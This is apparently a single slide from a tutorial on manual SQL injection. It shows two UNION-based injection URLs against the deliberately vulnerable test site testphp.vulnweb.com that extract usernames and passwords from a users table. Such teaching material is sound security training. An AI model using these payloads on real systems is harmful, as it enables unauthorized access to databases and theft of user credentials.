

# Manual SQL Injection
e) 	To retrieve the values in the uname column: http://testphp.vulnweb.com/artists.php?artist=-2 union select 1,2,group_concat(uname) from users

f) 	To retrieve the values in the password of the uname : http://testphp.vulnweb.com/artists.php?artist=-2 union select 1,2,group_concat(pass) from users